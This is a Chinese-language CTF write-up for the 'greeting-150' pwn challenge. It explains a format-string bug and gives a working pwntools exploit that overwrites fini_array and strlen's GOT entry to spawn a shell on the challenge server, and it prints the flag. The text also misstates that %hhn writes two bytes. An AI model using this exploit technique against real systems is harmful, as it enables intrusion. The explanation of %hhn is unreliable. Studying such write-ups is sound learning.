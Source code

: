 # greeting-150

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=a065ca98-80ae-417b-a469-c04a6c7f9ec3_2)

真就脚本小子，没了pwntools的自动格式化字符串我连wp都无法完全理解。

运行得知是个打招呼的程序，checksec如下。

-   Arch:     i386-32-little
    <br>RELRO:    No RELRO
    <br>Stack:    Canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x8048000)

反编译main发现很明显的格式化字符串漏洞。

```c
void main(void)
{
  int iVar1;
  int in_GS_OFFSET;
  char local_94 [64];
  undefined local_54 [64];
  int local_14;
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  printf("Please tell me your name... ");
  iVar1 = getnline(local_54,64);
  if (iVar1 == 0) {
    puts("Don\'t ignore me ;( ");
  }
  else {
    sprintf(local_94,"Nice to meet you, %s :)\n",local_54);
    printf(local_94);
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

local_94包含我们可以控制的值，并且直接将其当作格式化字符串的一部分输出。想都不用想，直接%p算偏移,后面肯定有用。

- Hello, I'm nao!
<br>Please tell me your name... AAAA,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
<br>Nice to meet you, AAAA,0x80487d0,0xfff9309c,0x3,0x3cef5800,0xf7d7496b,0xf7f5654a,0x6563694e,0x206f7420,0x7465656d,0x756f7920,0x4141202c,0x252c4141,0x70252c70,0x2c70252c,0x252c7025,0x70252c70 :)

出现了不一样的情况。AAAA并没有按照之前那样成对地出现，而是被拆成了两个部分。此处涉及到内存的对齐。简单说就是系统一次取4个字节，但是AAAA的起始地址不是4的整数倍，所以4个4个取的时候就被拆成了两半。想要找到正确的偏移就要多放几个字符用于对齐。

- Hello, I'm nao!
<br>Please tell me your name... aaAAAA,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
<br>Nice to meet you, aaAAAA,0x80487d0,0xffd776bc,0x3,0xe8655900,0xf7d3496b,0xf7f1654a,0x6563694e,0x206f7420,0x7465656d,0x756f7920,0x6161202c,0x41414141,0x2c70252c,0x252c7025,0x70252c70,0x2c70252c :)

很容易就能找到对齐字符的个数为2。直接记找偏移时要让输入字符成对出现，成对出现的地方就是偏移。那么这里的偏移就是12。程序内部没有现成后门，看来要使用任意写改写某些地址了。

但是改哪？整个程序只会运行一次，改普通的函数也调用不到。新的知识点出现了：程序结束时会调用fini_array里的函数，ghidra中在这里可以看到。

![fini_array](../../images/fini_array.png)

往左划，划到最右边的绿色字体处，能看到一个_elfSectionHeaders。鼠标悬停在后面的指针就能找到fini_array中函数的地址为0x80485a0。既然程序在结束时会调用这个函数，那我们如果能把这个函数改为main函数的地址，不就可以循环进入main了吗？

倒是可以直接用格式化字符串的%n来实现。问题是，main函数的地址为0x080485ed，fini_array中的地址为0x80485a0。先不用说输出那么0x080485ed那么多字节要多久，这俩玩意就最后两个字节不一样，至于把全部都覆盖一遍吗？%hhn一次写两字节，正好符合我们的要求。可以把%n扔了。

如果改写成功，我们就有了无限的漏洞可以利用。但除了用格式化字符串搞事情我们也没别的可干了，有没有什么办法可以getshell？

```c
void getnline(char *param_1,int param_2)
{
  char *pcVar1;
  fgets(param_1,param_2,stdin);
  pcVar1 = strchr(param_1,10);
  if (pcVar1 != (char *)0x0) {
    *pcVar1 = '\0';
  }
  strlen(param_1);
  return;
}
```

main函数内部调用了这个函数。这个函数内部又莫名其妙调用了个strlen。等一下，strlen只需要一个参数，跟system一样，而且参数我们可以随意控制。根据之前的经验，把strlen函数的got表改成system，参数传/bin/sh，不就可以getshell了吗？

strlen的got表地址为0x08049a54。system的plt是0x08048490。两者最后4字节不一样，不过拆成2次，一次2字节，hhn还是能冲。这块我有点不理解。strlen和system前面的0804是一样的，为什么不能直接跟前面改fini_array一样呢？如果能改怎么改呢？看wp和个人实验都发现必须连着0804一起覆盖了。唉我还是不懂格式化字符串，看看以后多做题能不能懂。

覆盖4个也不难，还是别钻牛角尖非要只覆盖两个了。在覆盖之前，我们需要把要覆盖的地址从小到达排列，因为hn家族都是根据前面已输出的字节数来改写地址的。如果从大的开始，无论如何都没法接着写小的了。exp出来了。

```python
from pwn import*
p=remote("61.147.171.105",57271)
main_addr = 0x080485ED
fini_array = 0x08049934
system_plt = 0x08048490
strlen_got = 0x08049A54
fini_num = 0x85ED
sysplt_num1 = 0x0804
sysplt_num2 = 0x8490
p.recvuntil('Please tell me your name... ')
pl = b'a'*2
pl+=p32(strlen_got)
pl += p32(strlen_got+2)
pl += p32(fini_array)
pl += b'%' + b'2020' + b'c%13$hn'
pl += b'%' + b'31884' + b'c%12$hn'
pl += b'%' + b'349' + b'c%14$hn'
p.sendline(pl)
p.recvuntil('Please tell me your name... ')
p.sendline('/bin/sh')
p.interactive()
```

strlen_got+2是因为程序是小端，低位地址反而在高位地址后面。

- ### Flag
  > cyberpeace{5ebb8cd174ba45fd3a912ed8656901ff}
